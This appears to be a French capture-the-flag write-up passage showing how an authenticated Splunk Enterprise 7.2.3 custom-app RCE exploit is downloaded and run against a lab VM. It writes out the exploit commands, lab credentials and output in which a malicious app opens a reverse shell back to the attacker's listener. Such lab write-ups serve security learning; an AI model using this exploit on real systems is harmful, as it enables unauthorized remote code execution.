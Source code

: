 ## Splunk Enterprise 7.2.3 - Authenticated Custom App RCE

Cette vulnérabilité-ci ne devrait pas non plus être exploitable sur cette VM... et pourtant, ça marche ! L'exploit [```46238.py```](files/46238.py) développé par Lee Mazzoleni nécessite l'installation de [geckodriver](https://github.com/mozilla/geckodriver/releases) et de [Selenium](https://en.wikipedia.org/wiki/Selenium_(software)), qui automatisent les actions qu'un utilisateur devrait effectuer manuellement : ouverture d'une page, remplissage d'un formulaire, clic sur un lien...

```console
root@blinils:~# wget -q https://www.exploit-db.com/download/46238 -O 46238.py
root@blinils:~# wget -q https://github.com/mozilla/geckodriver/releases/download/v0.24.0/geckodriver-v0.24.0-linux64.tar.gz
root@blinils:~# mkdir -p /root/Desktop/SplunkSploit/Gecko/
root@blinils:~# tar -xzf geckodriver-v0.24.0-linux64.tar.gz -C /root/Desktop/SplunkSploit/Gecko/
root@blinils:~# tree /root
/root
├── 46238.py
├── Desktop
│   └── SplunkSploit
│       └── Gecko
│           └── geckodriver
│               └── geckodriver

4 directories, 2 files
```

Une fois l'installation terminée, il est temps de lancer l'exploit... après l'avoir relu et analysé, bien évidemment ! C'est magique : le bot se charge tout seul d'ouvrir le navigateur, de se connecter à Splunk avec les identifiants fournis, de cliquer au bon endroit afin d'accéder au menu ```Uploads``` puis de constituer et de charger l'app nommée [```splunk-shell.tar.gz```](files/splunk-shell.tar.gz) (disponible sur ce dépôt).

```console
root@blinils:~# python 46238.py http://192.168.56.101:61337 sputnik ameer_says_thank_you_and_good_job 192.168.56.102 4444
[*] Creating Splunk App...
	==> Adding reverse shell (to 192.168.56.102:4444) to the app...
	==> Payload Ready! (splunk-shell.tar.gz)
[+] Starting bot ...
[*] Loading the target page ...
[*] Attempting to log in with the provided credentials ... Login successful!
[*] Navigating to the uploads page (http://192.168.56.101:61337/en-US/manager/appinstall/_upload) ...
[*] Your persistent shell has been successfully uploaded!
[+] Preparing to catch shell ... (this may take up to 1 minute)
listening on [any] 4444 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 35080
$ id
id
uid=1001(splunk) gid=1001(splunk) groups=1001(splunk)
$ 
```
